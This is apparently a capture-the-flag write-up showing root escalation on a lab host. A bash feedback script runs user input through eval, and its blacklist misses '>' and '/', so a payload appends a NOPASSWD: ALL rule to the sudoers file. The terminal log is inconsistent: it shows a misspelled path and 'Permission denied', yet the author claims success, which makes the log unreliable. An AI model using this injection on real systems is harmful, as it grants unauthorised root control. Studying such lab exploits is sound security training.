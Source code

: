 ```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We can see the following line `eval "echo $feedback"`, the eval operator is pretty dangerous since it execute the input as shell commands.

The script has input sanitization, but lacks on filtering the next chars: `>` and `/`, so we can redirect output to other files as `root`.

So, we can for example, give the user `deku` full `sudores` privileges.

```bash
deku@myheroacademia:~$ /opt/NewComponent/./feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudores
It is This:
/opt/NewComponent/./feedback.sh: line 14: /etc/sudores: Permission denied
Feedback successfully saved.
```

Seems successful since the `It is This:` field is empty, let's check again the `sudoers` privileges of `deku`.

```bash
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL
```
